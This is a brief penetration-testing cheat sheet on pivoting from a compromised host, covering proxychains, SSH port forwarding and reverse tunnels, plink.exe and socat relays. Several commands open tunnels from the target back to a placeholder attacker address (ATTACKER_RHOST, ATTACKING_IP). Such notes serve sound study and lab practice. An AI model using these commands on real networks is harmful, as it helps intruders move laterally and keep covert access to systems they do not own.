 # pivoting

## 2 types

1. Tunnelling/Proxying
2. Port Forwarding

## proxychains

config file: `/etc/proxychains.conf`

## ssh forward port forwarding

```
ssh -L <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> user@<COMPROMISED_LHOST> -fN
```

## ssh forward proxy

```
ssh -D <COMPROMISED_LPORT> <USER>@<COMPROMISED_LHOST> -fN
```

## ssh reverse connection

```
# on your machine
ssh-keygen
vim ~/.ssh/authorized_keys
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ID_RSA.PUB>

# on target machine
sudo systemctl status ssh # sudo systemctl start ssh
ssh -R <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
# or ssh -R <COMPROMISED_LPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```
